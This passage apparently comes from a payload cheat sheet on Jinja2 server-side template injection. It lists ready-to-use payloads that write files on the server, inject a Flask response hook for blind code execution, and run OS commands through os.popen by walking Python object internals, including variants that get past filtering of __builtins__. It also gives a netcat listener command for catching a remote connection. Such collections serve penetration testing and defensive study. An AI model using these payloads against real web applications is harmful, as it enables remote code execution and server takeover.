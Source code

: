 ### Jinja2 - Write into remote file

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Jinja2 - Remote Code Execution

Listen for connection

```bash
nc -lnvp 8000
```

#### Jinja2 - Forcing output on blind RCE

You can import Flask functions to return an output from the vulnerable page.

```py
{{
x.__init__.__builtins__.exec("from flask import current_app, after_this_request
@after_this_request
def hook(*args, **kwargs):
    from flask import make_response
    r = make_response('Powned')
    return r
")
}}
```


#### Exploit the SSTI by calling os.popen().read()

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

But when `__builtins__` is filtered, the following payloads are context-free, and do not require anything, except being in a jinja2 Template object:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

We can use these shorter payloads:

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

Source [@podalirius_](https://twitter.com/podalirius_) : https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/
